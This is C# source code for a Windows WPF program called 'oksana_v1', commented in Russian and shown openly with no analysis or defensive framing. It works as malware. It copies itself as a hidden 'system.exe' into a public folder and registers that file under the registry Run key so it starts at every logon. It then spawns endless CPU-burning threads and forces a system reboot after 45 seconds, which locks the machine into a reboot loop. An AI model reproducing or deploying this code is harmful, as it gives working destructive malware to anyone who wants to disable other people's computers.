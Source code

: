 # oksana_v1
Ксения
using JCS;
using Microsoft.Win32;
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Threading;
using System.Windows;

namespace WpfApplication_OKSANA
{
/// <summary>
/// Логика взаимодействия для MainWindow.xaml
/// </summary>
public partial class MainWindow : Window
{
public static string needPatch = "C:\\Users\\Public\\";

public MainWindow()
{
if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
{
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}
else
if (OSVersionInfo.Name == "Windows XP")
{
needPatch = "C:\\Documents and Settings\\All Users\\";
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}

InitializeComponent();
}

private void Window_Loaded(object sender, RoutedEventArgs e)
{
if (!File.Exists(needPatch + "system.exe"))
{
try
{
File.Copy("system.exe", needPatch + "system.exe");
File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

}
catch { }
}
start();
}

public static void sys_sleep()
{
while (true)
{
Thread s = new Thread(s_b);
s.Start();
}
}
private static void s_b()
{
int y = 2;
while (true)
{
y *= y;
}
}

public static void start()
{
Stopwatch sw = new Stopwatch();
sw.Start();
bool b = true;
bool pl = false;
while (b)
{
if (sw.ElapsedMilliseconds > 20000)
{
if (!pl)
{
Thread g = new Thread(sys_sleep);
g.Start();
pl = true;
}
}
if (sw.ElapsedMilliseconds > 45000)
{
DoExitWin(EWX_REBOOT);
b = false;
}
}
}



[StructLayout(LayoutKind.Sequential, Pack = 1)]
internal struct TokPriv1Luid
{
public int Count;
public long Luid;
public int Attr;
}
[DllImport("kernel32.dll", ExactSpelling = true)]
internal static extern IntPtr GetCurrentProcess();
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
[DllImport("advapi32.dll", SetLastError = true)]
internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,
ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
[DllImport("user32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool ExitWindowsEx(int flg, int rea);
internal const int EWX_REBOOT = 0x00000002;
internal const string SE_SHUTDOWN_NAME = "SeShutdownPrivilege";
internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
internal const int TOKEN_QUERY = 0x00000008;
internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;

public static Thread thread1;
public static void DoExitWin(int flg)
{
bool ok;
TokPriv1Luid tp;
IntPtr hproc = GetCurrentProcess();
IntPtr htok = IntPtr.Zero;
ok = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
tp.Count = 1;
tp.Luid = 0;
tp.Attr = SE_PRIVILEGE_ENABLED;
ok = LookupPrivilegeValue(null, SE_SHUTDOWN_NAME, ref tp.Luid);
ok = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
ok = ExitWindowsEx(flg, 0);
}
}

public class autorun
{
public static bool SetAutorunValue(bool autorun, string npath)
{
const string name = "systems";
string ExePath = npath;
RegistryKey reg;

reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
try
{
if (autorun)
reg.SetValue(name, ExePath);
else
reg.DeleteValue(name);
reg.Flush();
reg.Close();
}
catch
{
return false;
}
return true;
}
}
}
